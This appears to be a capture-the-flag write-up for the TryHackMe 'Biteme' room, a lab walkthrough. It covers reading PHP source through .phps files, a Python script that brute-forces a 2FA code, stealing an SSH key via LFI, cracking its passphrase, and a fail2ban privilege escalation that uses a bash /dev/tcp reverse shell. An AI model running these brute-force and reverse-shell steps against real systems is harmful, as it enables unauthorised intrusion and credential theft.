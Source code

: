 # Biteme: 

![Contest Date: 12.03.2022](https://img.shields.io/badge/Contest%20Date-12.10.2022-lightgrey.svg)

## Description

### Tryhackme Medium Room

## Summary

The initial scan shows 2 ports opened: 22,80.
The web server has an 'console' endpoint which is a login page ( which is protected with secureimage for bruteforcing ). 
Looking for the source this caught my attention:

```javascript

 function handleSubmit() {
        eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0.1(\'2\').3=\'4\';5.6(\'@7 8 9 a b c d e f g h i... j\');',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,{}))
        return true;
      }

```

The message can be understood as it is, but it can also be unpacked to be more readable.

Which can be unpacked using <a href="https://matthewfl.com/unPacker.html">Unpacker</a> to :

```javascript

 function handleSubmit() 
	{
	        eval(function(p,a,c,k,e,r)
		{
		e=function(c)
			{
			return c.toString(a)
		};
		if(!''.replace(/^/,String))
			{
			while(c--)r[e(c)]=k[c]||e(c);
			k=[function(e)
				{
				return r[e]
			}
			];
			e=function()
				{
				return'\\w+'
			};
			c=1
		};
		while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);
		return p
	}
	('0.1(\'2\').3=\'4\';
	5.6(\'@7 8 9 a b c d e f g h i... j\');
	',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,
		{
	}
	))
	        return true;
	      
}
```


Anyway, the function can also be called in the console of the page, and it logs the message : 

```
@fred I turned on php file syntax highlighting for you to review... jason
```

Which made me search for <a href="https://www.php.net/manual/en/function.highlight-file.php">highlight_file</a> and found this:

```

Many servers are configured to automatically highlight files with a phps extension. For example, example.phps when viewed will show the syntax highlighted source of the file.

```

Using this we can read the source code of the page by going to `http://<ip>/console/index.phps`

This file includes `functions.php` which is used for authentication and can also be read using the same trick `(functions.phps)`.

This file reveals that the hash used for comparison should end in `001` and used a bash command to bruteforce it.

```bash
while IFS= read -r line; do printf '%s' "$line" |md5sum | awk '{print $1}' | grep -E "001$" && echo $line && break ; done < /usr/share/wordlists/rockyou.txt
```
Now we just need a user.

This again reveals other file , `config.php` , which has the source code also readable , and we find the user encoded in hex.

We decode it and get creds to log in.

After logging in, we now need to brute-force the 2FA code, as we see we have unlimited tries.
Created my script for it:
```python3

import requests

s = requests.Session()

cookies = {'PHPSESSID': '<cookie>','user':'<decoded_user>','pwd':'<found_pass>'}
s.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})


for i in range(9999,5000,-1):
        a = '{:d}'.format(i).zfill(4)
        print(a,end='\r')
        r = s.post('http://<ip>/console/mfa.php',cookies=cookies,data='code={}'.format(a))
        if 'Incorrect code' not in r.text:
                #print(r.text)
                print('[+] Found the code: {}'.format(a))
                break

```

After getting a valid code, we now have lfi, using this to get the /ssh/id_rsa file of jason user which has a passphrase.
Using ss2john, and then using john with rockyou.txt we get the passphrase.

## Privesc 

By running `sudo -l` as user `jason` , we can impersonate user `fred` , which can also restart the `fail2ban` service on the machine.

Running 
```bash
find / -user fred 2>/dev/null
```
we find a strange file writable by fred, `/etc/fail2ban/action.d/iptables-multiport.conf`

Using this blog regarding <a href="https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/">fail2ban privesc</a>.

After replacing the `banaction` with our reverse shell `bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1", we have to restart the service, which user fred can do by running `sudo /bin/systemctl restart fail2ban`.

All we have to do now is to trigger the ban action. 

After reading the config file `/etc/fail2ban/jail.local` we see that it is triggered after 3 retries.

Now what's left for us to do is to try to log in using ssh and establish 3 sessions in wich we enter a wrong pass, after that we get the shell as root.
